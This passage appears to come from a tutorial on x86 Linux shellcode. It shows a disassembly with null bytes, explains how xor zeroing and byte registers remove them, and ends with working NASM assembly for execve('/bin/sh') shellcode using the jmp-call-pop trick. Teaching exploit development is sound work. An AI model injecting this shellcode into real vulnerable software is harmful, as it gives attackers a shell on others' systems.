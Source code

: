 ``` {.example}
 804806d:   89 f3                   mov    ebx,esi
 804806f:   b8 0b 00 00 00          mov    eax,0xb
 8048074:   cd 80                   int    0x80
 8048076:   bb 00 00 00 00          mov    ebx,0x0
 804807b:   b8 01 00 00 00          mov    eax,0x1
 8048080:   cd 80                   int    0x80

08048082 <callback>:
 8048082:   e8 db ff ff ff          call   8048062 <dowork>
 8048087:   2f                      das    
 8048088:   62 69 6e                bound  ebp,QWORD PTR [ecx+0x6e]
 804808b:   2f                      das    
 804808c:   73 68                   jae    80480f6 <callback+0x74>
```

You can see where the NULL's come from. There are two big problems:

-   `push 0x0` : pushing null on the stack requires a null value in the
    bytes
-   `push e*x` : pushing a 4 byte register storing 1 byte of values
    require null bytes

To solve one of these problem, we need to create NULL bytes without
actually writing any NULL bytes. The most affective way to do this is
with xor. Recall that the xor of a value with itself is always zero. To
solve the other problem, we need to make sure we use BYTE PTR's instead
of DWORD PTR's, which means using the `al` `bl` `cl` and `dl` registers.
We can write our code like so.

``` {.asm}

SECTION .text       ; Code section
        global _start   ; Make label available to linker

_start:             ; Standard ld entry point
    jmp  callback

dowork:


    pop esi         ; esi now holds address of "/bin/sh

    xor     eax,eax     ; zero out eax
    push    eax     ; args[1] - NULL
    push    esi     ; args[0] - "/bin/sh"

    xor edx,edx     ; Param #3 - NULL (zero out edx)
    mov ecx,esp     ; Param #2 - address of args array
    mov ebx,esi     ; Param #1 - "/bin/sh"
    mov al,0xb      ; System call number for execve (use al mov)
    int 0x80        ; Interrupt 80 hex - invoke system call


    xor ebx,ebx     ; Exit code, 0 = normal
    xor     eax,eax     ; zero eax
    mov al,1        ; System call number for exit
    int 0x80        ; Interrupt 80 hex - invoke system call

callback:
    call dowork    ; call pushes the next address onto stack,
               ; which is address of "/bin/sh" 
    db "/bin/sh",0 ;
```
